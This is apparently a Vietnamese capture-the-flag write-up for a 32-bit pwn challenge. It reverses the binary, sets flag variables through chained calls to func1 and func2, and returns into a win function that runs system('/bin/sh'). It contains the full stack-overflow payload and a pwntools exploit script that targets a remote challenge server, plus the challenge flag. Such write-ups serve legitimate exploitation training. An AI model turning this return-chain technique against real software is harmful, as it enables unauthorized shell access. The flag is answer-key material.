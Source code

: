 # STACK ARCHITECT (pwn)

> Khởi động

## Exploit

- Kiểm tra chương trình với `file`, là file binary 32bit

  ![file-check.png](images/file-check.png)

- Kiểm tra với `checksec`, NX được bật, vậy không thể dùng shellcode, Stack Canary, PIE đều được tắt

  ![checksec-check.png](images/checksec-check.png)

- Chạy chương trình, không có gì xảy ra

  ![initial-exec.png](images/initial-exec.png)

- Sử dụng `IDA`, có các hàm cần kiểm tra

  ![functions.png](images/functions.png)

- Kiểm tra pseudo hàm `main`, không có gì đặc biệt

  ![pseudo.png](images/pseudo-main.png)

- Kiểm tra pseudo hàm `win`, ta thấy cần các biến `check2`, `check3`, `check4` bằng 1. Sau đó thì thực hiện lệnh `system(command)` với `command = "*]di*nc" + 5 = "/bin/sh"`

  ![pseudo-win](images/pseudo-win.png)

- Kiểm tra pseudo hàm `func1`, tại đây có các biến `check2`, `check3`. `s1 == "I'm sorry, don't leave me, I want you here with me ~~"`. thì `check2 = 1` Và sau khi có `check2 = 1` thì arg `a1` của `func1` sẽ phải bằng `536937736 = 0x20010508` thì `check3 = 1`. Như vậy phải cần ít nhất 2 lần thực hiện `func1`

  ![pseudo-func1.png](images/pseudo-func1.png)

- Kiểm tra pseudo hàm `func2`, tại đây có biến `check4`, và cần `check2`, `check3` bằng 1, biến `v1` nằm tại `esp` bằng `134553601 = 0x08052001` thì `check4 = 1`. Vậy ta cần thực hiện `func1` trước 2 lần, và sau khi có `check2`, `check3` bằng 1 thì ta sẽ thực hiện `func2`.

  ![pseudo-func2.png](images/pseudo-func2.png)

- Tại `func1` lần 2, vì cần arg, nên giá trị ebp + 8 sẽ là arg, sau đó ta cần `pop; ret` 1 lần nữa để tránh `ret` vào arg. Cụ thể hơn xem ở stack bên dưới

- Sau mỗi lần `ret`, giá trị của `ebp` luôn được giữ nguyên, và giá trị tại địa chỉ cũ của ebp (vị trí ebp của hàm cũ), sau khi `ret` vẫn còn giữ nguyên, vì vậy ta có thể ghi giá trị `0x08052001` vào `esp` tại hàm `main`, khi đến hàm `func2` lần 1, thì giá trị tại `ebp - 4` sẽ là arg của hàm `func1` thứ 2, gọi thêm 1 lần hàm `func2` nữa, thì giá trị `ebp` cũ (`ebp - 4`) = `0x08052001`. Cụ thể hơn xem ở stack bên dưới

  ![func2-cmp.png](images/func2-cmp.png)

- Ta sẽ xây dựng stack, đầu tiên, Với mỗi lần `ret`, `ebp` = `ebp + 4`

- Tại đầu hàm `main`, `esp - 0x50`

  ![stack-initialized.png](images/stack-initialized.png)

- Tại hàm `func1` giá trị của biến nhập vào sẽ là `ebp - 0x54`, tương tự với biến nhập vào tại hàm main, sau khi di chuyển stack, ta có đoạn payload đầu tiên. Và cần nhập thêm các ký tự null để khi so sánh chỉ lấy đúng chuỗi. Chi tiết tại hình stack bên dưới

  ```python
  payload = b'A'*4 + b'I\'m sorry, don\'t leave me, I want you here with me ~~'
  payload +=  b'\x00'*27
  ```

  ![main-variable-gets.png](images/main-variable-gets.png)

  ![func1-variable-cmp.png](images/func1-variable-cmp.png)

- Như đã đề cập về `func2` ở trên, payload tại `ebp`

  ```python
  payload += p32(0x08052001)
  ```

- Tiếp theo là 2 lần hàm `func1`, cùng với `pop; ret` và arg `func1` lần 2

  ```python
  payload += p32(func1Addr)
  payload += p32(func1Addr)
  payload += p32(popretAddr)
  payload += p32(0x20010508)
  ```

- Sau đó là 2 lần `func2`

  ```python
  payload += p32(func2Addr)
  payload += p32(func2Addr)
  ```

- Sau đó là hàm `win`

  ```python
  payload += p32(winAddr)
  ```

- Xây dựng stack

  ![stack.svg](images/stack.svg)

- Các địa chỉ cần tìm: `func1`, `func2`, `win`, `pop ebx; ret`

  ![function-addresses.png](images/function-addresses.png)

  ![pop-ret-address.png](images/pop-ret-address.png)

- Như vậy, có được code exploit [StackArchitect.py](StackArchitect.py)

  ```python
  from pwn import *


  #p = process('./stack_architect')

  p = remote('45.122.249.68', 10018)

  func1Addr = 0x804929e
  func2Addr = 0x80492fe
  winAddr = 0x8049216
  popretAddr = 0x08049022

  payload = b'A'*4 + b'I\'m sorry, don\'t leave me, I want you here with me ~~'
  payload +=  b'\x00'*27
  payload += p32(0x08052001)
  payload += p32(func1Addr)
  payload += p32(func1Addr)
  payload += p32(popretAddr)
  payload += p32(0x20010508)
  payload += p32(func2Addr)
  payload += p32(func2Addr)
  payload += p32(winAddr)

  p.sendline(payload)

  p.interactive()
  ```

  ![flag.png](images/flag.png)

> Flag: Wanna.One{neu_ban_chinh_phuc_duoc_chinh_minh_ban_co_the_chinh_phuc_duoc_the_gioi}